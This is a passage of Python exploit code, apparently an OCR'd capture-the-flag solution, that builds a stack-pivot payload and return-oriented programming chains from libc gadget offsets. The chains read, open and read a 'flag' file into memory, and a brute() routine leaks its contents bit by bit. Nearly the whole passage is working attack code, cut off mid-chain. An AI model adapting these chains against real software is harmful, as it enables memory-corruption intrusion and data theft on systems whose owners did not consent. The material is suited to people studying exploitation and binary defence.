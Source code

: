 ```python
        libc.symbols['read'],
        libc.address + 0x3838,      # pop rsp; ret;
        0x601400,
    ]
    stack_pivot_payload = 'A' * 0x20 + p64(0x6010A9)
    for i in rop:
        stack_pivot_payload += p64(i)

    file = 'flag\x00'
    rop = [
        # read "flag" to bss
        libc.address + 0x21102,     # pop rdi; ret;
        0,
        libc.address + 0x202e8,     # pop rsi; ret;
        0x6010A9,  # bss
        libc.address + 0x1b92,      # pop rdx; ret;
        len(file),
        libc.symbols['read'],

        # open flag file
        libc.address + 0x21102,     # pop rdi; ret;
        0x6010A9,                   # bss
        libc.address + 0x202e8,     # pop rsi; ret;
        0,                          # read
        libc.address + 0x1b92,      # pop rdx; ret;
        0x0,
        libc.symbols['open'],

        # read flag content to bss
        libc.address + 0x112285,    # xchg eax, edi; ret;
        libc.address + 0x202e8,     # pop rsi; ret;
        0x6010A9,  # bss
        libc.address + 0x1b92,      # pop rdx; ret;
        0x100,
        libc.symbols['read'],
    ]

    def brute(index):
        global payload
        rop_bit = [
            # load flag to r9
            libc.address + 0x21102,     # pop rdi; ret;
            0x6010A9 - 0x30 + index / 64 * 8,
            libc.address + 0x47bb5,     # mov r9, qword ptr [rdi + 0x30]; mov rdi, qword ptr [rdi + 0x68]; xor eax, eax; ret;
            libc.address + 0x21102,     # pop rdi; ret;
            0x6010A9 - 0x30,
            libc.address + 0xd20a3,     # pop rcx; ret;
            index,
            libc.address + 0x48985,     # shl r9, cl; mov qword ptr [rdi], r9; ret;
            libc.address + 0xd20a3,     # pop rcx; ret;
            63,                         # r9 = 1 or 0
            libc.address + 0x48a8f,     # shr r9, cl; mov qword ptr [rdi], r9; ret;
            libc.address + 0xd20a3,     # pop rcx; ret;
            3,                          # r9 = 8 or 0
            libc.address + 0x48985,     # shl r9, cl; mov qword ptr [rdi], r9; ret;
            libc.address + 0x2a69a,     # pop rbx; ret;
            0x6010A9 - 0x30,
            libc.address + 0xd20a3,     # pop rcx; ret;
            libc.address + 0xd20a3,     # pop rcx; ret;
            libc.address + 0x89267,     # mov rdi, r9; mov qword ptr [rbx], rsi; mov qword ptr [rbx + 0x48], r9; call rcx;
            libc.address + 0x33544,     # pop rax; ret;
```